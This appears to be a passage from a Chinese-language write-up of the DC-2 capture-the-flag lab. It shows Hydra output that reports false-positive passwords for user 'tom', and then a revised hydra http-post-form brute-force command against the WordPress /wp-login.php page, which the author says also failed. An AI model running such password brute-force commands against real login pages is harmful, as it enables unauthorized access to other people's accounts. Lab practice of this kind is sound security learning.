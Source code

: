 ```
[80][http-post-form] host: dc-2   login: tom   password: vel
[80][http-post-form] host: dc-2   login: tom   password: nisi
[80][http-post-form] host: dc-2   login: tom   password: sit
[80][http-post-form] host: dc-2   login: tom   password: sem
[80][http-post-form] host: dc-2   login: tom   password: vitae
[80][http-post-form] host: dc-2   login: tom   password: site
[80][http-post-form] host: dc-2   login: tom   password: sed
[80][http-post-form] host: dc-2   login: tom   password: leo
[80][http-post-form] host: dc-2   login: tom   password: nec
[80][http-post-form] host: dc-2   login: tom   password: Sed
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-24 19:32:13

```


换个参数

```
 hydra -l admin -P /home/kali/p.txt dc-2 http-post-form \
"/wp-login.php:log=^USER^&pwd=^PASS^:S=200" -vV -f

```

但也是不行

太执着一个地方了